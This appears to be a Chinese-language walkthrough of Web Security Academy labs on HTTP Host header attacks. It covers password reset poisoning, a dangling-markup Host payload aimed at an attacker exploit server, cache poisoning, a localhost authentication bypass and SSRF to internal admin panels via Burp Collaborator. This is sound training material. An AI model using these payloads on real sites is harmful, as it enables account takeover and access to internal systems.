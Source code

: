 # Http Host header attacks

[toc]

## 1. Basic password reset poisoning

![1.1](HTTP-Host-header-attacks.assets/1.1.png)

可以修改Host来修改域名的话，我们就可以将域名定到自己的exploit上面，然后受害者点击链接我们就可以收到`temp-forgot-password-token`的参数值了。

获取到carlos的参数值：`temp-forgot-password-token=tJRC5ielhDXdTlbTof4JDcKw8Bg99VO4`。

然后我们去重置密码。

成功登录。

## 2. Password reset poisoning via dangling markup

这个更改密码，是重置密码之后，系统自己给你一个密码，然后让你登陆。

更改Host会导致后端服务器出错。

但是在原来的Host后面自己添加port，或者非数字的port。而且Host的所有部分会变成Click那里的url。

尝试用单引号来穿透`a`标签，并将后面带密码的部分都给包含进去。

```
Host: acc51f7e1eaa1c6f80644ffb003b007b.web-security-academy.net:aa'><a href="https://ac9b1fab1e571c7080b44f9901c300e1.web-security-academy.net/aaa
```

成功穿透。

将穿透a标签的报文发出去，等待carlos上钩。查看log。

成功得到密码`FpFO7HrtTr`。

## 3. Web cache poisoning via ambiguous requests

![3.1](HTTP-Host-header-attacks.assets/3.1.png)

直接将第二个Host改成exploit的url，然后让缓存命中应该就可以了。

![3.2](HTTP-Host-header-attacks.assets/3.2.png)

可以了。

## 4. Host header authentication bypass

访问`/admin`一直说要本地用户才能访问。

* 将host头改成127.0.0.1不行
* 改成localhost可以了。

进去按照路径删除就好了。

## 5. Routing-based SSRF

>  access the internal admin panel located in the `192.168.0.0/24` range, then delete Carlos.

将Host改成burp collaborator的地址，发现返回了burp collaborator的内容，并且 collaborator上面也有访问记录。说实话，我都以为是直接请求的collaborator，还好Repeater里面的target并没有变。

因为`192.168.0.0/24`前24位是不变的，也就是只能从`192.168.0.0`到`192.168.0.255`，所以进行爆破。（爆破的时候会提示Host与Target不匹配，忽略继续即可）

爆破出来之后`192.168.0.14`的状态码是302。

证明这里是可以进去的。然后直接访问admin。

```http
GET /admin HTTP/1.1
Host: 192.168.0.14
```

然后进去删除就好了。（如果不想自己构造，那就用浏览器改包，每一个包应该都需要改Host）

## 6. SSRF via flawed request parsing

> access the internal admin panel located in the `192.168.0.0/24` range, then delete Carlos.

这道题直接修改Host不行了。

尝试添加其他的头，也不行。

然后就麻了。看了一下官方的解析，发现还有下面这种神奇做法。

```http
GET https://your-lab-id.web-security-academy.net/ HTTP/1.1
```

直接Get一个绝对的URL地址。这样验证的就是绝对的URL地址，而不是Host头。

下面这种可以访问到collaborator。

```http
GET https://accb1f101ea7c4848170346a008700b4.web-security-academy.net/ HTTP/1.1
Host: pkd9k3hvqe067wzhm7udz1rei5oycn.burpcollaborator.net
```

那接下来就是爆破端口，然后去删除账户了。

爆破出来是`192.168.0.6`。然后进入`/admin`，删除账户就好了。

```http
GET https://accb1f101ea7c4848170346a008700b4.web-security-academy.net/admin HTTP/1.1
Host: 192.168.0.6
```

删除账户还是用浏览器比较方便。

